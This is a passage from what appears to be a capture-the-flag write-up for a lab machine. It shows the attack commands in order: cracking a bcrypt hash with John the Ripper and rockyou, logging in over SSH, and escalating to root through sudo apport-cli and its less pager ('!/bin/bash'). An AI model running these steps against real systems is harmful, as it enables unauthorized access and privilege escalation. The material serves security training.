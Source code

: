 ```
echo '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12' > hash
```

```
john --wordlist=/home/kali/Tools/rockyou.txt hash
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/f64bbd88-8ac4-43da-b81d-dc5acc2a9dc5)


Let’s login with these credentials Via SSH.

```
ssh logan@devvortex.htb
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/7ab345ec-6e40-49e3-b702-bf6d1b208234)

I found a binary file we can use this binary with the `sudo` command without a password.

```
sudo -l
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/1eb72de5-c94c-4822-a317-0b4c9623b2fe)

I could run `/usr/bin/apport-cliwith` sudo, but needed to figure out how to exploit it. Quick research revealed a CVE:

```
A privilege escalation attack was found in apport-cli 2.26.0 and earlier which is similar to CVE-2023-26604. If a system is specially configured to allow unprivileged users to run sudo apport-cli, less is configured as the pager, and the terminal size can be set: a local attacker can escalate privilege. It is extremely unlikely that a system administrator would configure sudo to allow unprivileged users to perform this class of exploit.
```

```
sudo /usr/bin/apport-cli -f
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/9db6f8ac-26ab-4930-83a2-ea577b01b3d7)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/e18a473d-4722-4d3f-9826-686dc2c1ef7b)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/dc77a946-1b15-4c61-8949-b8a9ea573959)

```
!id
!/bin/bash
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/e21fb320-3251-44cb-be99-d3137ed42f51)

Collecting the root flag..
